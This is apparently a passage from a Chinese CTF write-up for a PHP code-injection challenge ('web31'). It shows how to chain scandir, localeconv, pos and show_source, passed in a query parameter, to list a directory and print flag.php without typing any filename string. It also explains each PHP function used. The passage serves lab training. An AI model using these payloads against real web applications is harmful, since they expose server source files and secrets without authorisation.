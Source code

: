 ### 方法二:

hint给出的方式c=show_source(next(array_reverse(scandir(pos(localeconv())))));

var_dump(scandir(pos(localeconv()))); // 查看当前目录内容

// array(4) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(8) "flag.php" [3]=> string(9) "index.php" }

getcwd() 可以代替pos(localeconv())

这个方法注意是用php函数拼凑出需要的字符串,关键函数是**scandir(pos(localeconv()))**

> localeconv()：返回包含本地化数字和货币格式信息的关联数组。这里主要是返回数组第一个"."
> pos():输出数组第一个元素，不改变指针；
> scandir();遍历目录，这里因为参数为"."所以遍历当前目录
> array_reverse():元组倒置
> next():将数组指针指向下一个，这里其实可以省略倒置和改变数组指针，直接利用[2]取出数组也可以
> show_source():查看源码
> getcwd():获取当前路径
>
> 相关的方法：
>
> current()返回数组中的当前元素的值。
>
> end()将内部指针指向数组中的最后一个元素，并输出。
>
> next()将内部指针指向数组中的下一个元素，并输出。
>
> prev()将内部指针指向数组中的上一个元素，并输出。
>
> reset()将内部指针指向数组中的第一个元素，并输出。
>
> each()返回当前元素的键名和键值，并将内部指针向前移动。

查看当前目录文件`?c=print_r(scandir(pos(localeconv())))`

![web31_print_r](./image/web31_print_r.png)

可以直接`?c=show_source(scandir(pos(localeconv()))[2])`就可以查看flag源码


[ERROR]: could not find driver